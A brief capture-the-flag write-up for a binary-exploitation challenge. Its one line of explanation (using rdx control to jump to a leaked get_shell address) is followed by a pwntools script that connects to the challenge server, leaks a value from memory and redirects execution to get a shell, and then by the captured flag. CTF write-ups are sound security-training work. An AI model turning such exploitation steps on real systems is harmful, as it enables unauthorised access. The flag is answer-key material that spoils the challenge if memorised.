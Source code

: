 # Wanna Play a Game?

`Pwnable`

`We can jump any address with our rdx. So leak the address of get_shell, and go to that address.`

```
from pwn import *
e = ELF('chall')
HOST = 'fe34abc77b40214b09648640e2a19860.chal.ctf.ae'
p = remote(HOST, 443, ssl=True, sni=HOST)
p.sendafter(b'Name> ', p64(e.sym['printf']))
p.sendafter(b'> ', str(7*2+1).encode())
p.sendafter(b'> ', str(0x404060).encode())
passcode = p.recv(8)
www = int.from_bytes(passcode,'little')
p.sendafter(b'> ', b'2')
p.sendafter(b'> ', str(www).encode())
p.interactive()
```

flag is: **flag{8tdGUPB6sf21lsM3S5f3tB4ymV9NLRGJ}**

